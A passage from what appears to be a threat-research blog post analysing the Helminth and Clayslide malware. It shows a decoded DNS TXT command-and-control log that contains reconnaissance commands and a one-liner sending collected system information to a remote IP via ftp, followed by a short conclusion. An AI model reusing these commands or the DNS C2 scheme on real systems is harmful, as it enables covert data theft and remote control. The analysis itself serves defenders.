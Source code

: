 


123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384

[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_1988996938.shalaghlagh.tk | Type: TXT[+] Response TXT: NO[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1404872126.shalaghlagh.tk | Type: TXT[+] Response TXT: OK1.txt[*] Filename: 1.txt[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_1_-_txt_0_840824109.shalaghlagh.tk | Type: TXT[+] Response TXT: aG9zdG5hbWU=[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_1_-_txt_8_1643283204.shalaghlagh.tk | Type: TXT[+] Response TXT: EOFEOF[*] Decoded Stream: hostname[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1534172028.shalaghlagh.tk | Type: TXT[+] Response TXT: OK2.txt[*] Filename: 2.txt[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_2_-_txt_0_579093369.shalaghlagh.tk | Type: TXT[+] Response TXT: c3lzdGVtaW5mbw==[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_2_-_txt_10_1446367320.shalaghlagh.tk |Type: TXT[+] Response TXT: EOFEOF[*] Decoded Stream: systeminfo[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_1130109782.shalaghlagh.tk | Type: TXT[+] Response TXT: NO[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1735654322.shalaghlagh.tk | Type: TXT[+] Response TXT: OK3.txt[*] Filename: 3.txt[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_3_-_txt_0_122829473.shalaghlagh.tk | Type: TXT[+] Response TXT: c3RhcnQgZnRwIC1BIDg3LjExNy4yMDQuMTQz[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_3_-_txt_27_1524268269.shalaghlagh.tk | Type: TXT[+] Response TXT: EOFEOF[*] Decoded Stream: start ftp -A 87.117.204.143[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_117849324.shalaghlagh.tk | Type: TXT[+] Response TXT: NO[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_926300114.shalaghlagh.tk | Type: TXT[+] Response TXT: OK5.txt[*] Filename: 5.txt[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_5_-_txt_0_1307455992.shalaghlagh.tk | Type: TXT[+] Response TXT: d2hvYW1pPmM6XHdpbmRvd3NcdGVtcFx0LnR4dA0KaXBjb25maWc_PmM6XHdpbmRvd3NcdGVtcFx0LnR4dA0Kc3lzdGVtaW5mbz4_Yzpcd2luZG93c1x0ZW1wXHQudHh0DQplY2hvIFBVVCBjOlx3aW5kb3dzXHRlbXBcdC50eHQgfCBmdHAgLUEgODcuMTE3LjIwNC4x[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_5_-_txt_150_2072649310.shalaghlagh.tk | Type: TXT[+] Response TXT: NDM=[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_5_-_txt_152_1977692291.shalaghlagh.tk | Type: TXT[+] Response TXT: EOFEOF[*] Decoded Stream: whoami>c:\windows\temp\t.txtipconfig>>c:\windows\temp\t.txtsysteminfo>>c:\windows\temp\t.txtecho PUT c:\windows\temp\t.txt | ftp -A 87.117.204.143[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_155964816.shalaghlagh.tk | Type: TXT[+] Response TXT: NO[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1003791024.shalaghlagh.tk | Type: TXT[+] Response TXT: OK7.txt[*] Filename: 7.txt[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_7_-_txt_0_1649905845.shalaghlagh.tk | Type: TXT[+] Response TXT: c3RhcnQgZnRwIC1BIDgzLjE0Mi4yMzAuMTM4[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_7_-_txt_27_65323037.shalaghlagh.tk | Type: TXT[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_7_-_txt_27_65323037.shalaghlagh.tk | Type: TXT[+] Response TXT: EOFEOF[*] Decoded Stream: start ftp -A 83.142.230.138[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_1205170103.shalaghlagh.tk | Type: TXT[+] Response TXT: NO[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_779542217.shalaghlagh.tk | Type: TXT[+] Response TXT: OK11.txt[*] Filename: 11.txt[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_11_-_txt_0_1213525986.shalaghlagh.tk | Type: TXT[+] Response TXT: QGVjaG8gb2ZmDQplY2hvIDE=[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_11_-_txt_17_651256114.shalaghlagh.tk | Type: TXT[+] Response TXT: EOFEOF[*] Decoded Stream: @echo offecho 1[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_816831185.shalaghlagh.tk | Type: TXT[+] Response TXT: NO






As we can see, a number of interesting commands were received by the attackers, including attempts to communicate with remote FTP servers and various reconnaissance commands. These commands came at seemingly random intervals, indicating they likely resulted from an actual attacker issuing them, versus an automated system.
Conclusion
The attackers using the Helminth and Clayslide malware families continue to target various high value companies and organizations across the globe using their customized malware. This malware is under active development and continues to be updated and improved upon, as witnessed in the files discussed in this blog post. While the malware deployed is not terribly sophisticated, it uses techniques such as DNS command and control (C2) that allows it to stay under the radar at many establishments.
Palo Alto Networks customers are protected against this threat in the following ways:
